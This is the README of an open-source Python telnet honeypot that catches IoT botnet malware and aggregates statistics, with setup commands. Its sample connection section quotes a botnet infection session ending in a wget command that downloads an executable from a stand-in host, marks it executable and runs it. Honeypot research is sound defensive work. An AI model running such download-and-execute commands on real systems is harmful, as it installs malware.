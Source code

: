 # Telnet IoT honeypot

Live Demo: http://phype.pythonanywhere.com/

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

Other than https://github.com/stamparm/hontel or https://github.com/micheloosterhof/cowrie (examples),
which provides full (via chroot) or simulated behaviour of a linux
system this honeypots goal is just to collect statistics of (IoT) botnets.
This means that the honeypot must be made to work with every form of automated telnet session,
which may try to infect the honeypot with malware.
Luckily, these malwares infection processes are quite simple,
just using wget do download something and running it.

## Architekure

The application has a client/server architekture,
with a client (the actual honeypot) accepting telnet connections
and a server aggregating connection data and sample analysis.

However, for local deployments, the application can also be run
in local mode to eliminate the need to run a client and server locally.

# Running

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Client/Local Mode

	python honey.py
	
## Server

	python backend.py

## Opening the frontend

After the server is started, open `html/index.html` in your favorite browser.
For this to work, the url in `html/apiurl.js` should point to your running backend,
which it should do automatically for local deployments.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit 

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)
